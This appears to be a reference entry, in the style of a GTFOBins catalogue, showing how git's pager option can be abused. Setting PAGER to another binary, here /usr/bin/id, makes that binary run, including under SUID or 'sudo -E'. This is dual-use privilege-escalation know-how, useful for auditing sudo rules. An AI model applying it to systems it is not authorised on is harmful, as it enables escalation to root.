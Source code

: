 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        export PAGER=/usr/bin/id
        git -p help
  suid-limited:
    - code: |
        export PAGER=/usr/bin/id
        ./git -p help
  sudo-enabled:
    - code: |
        export PAGER=/usr/bin/id
        sudo -E git -p help
---
```

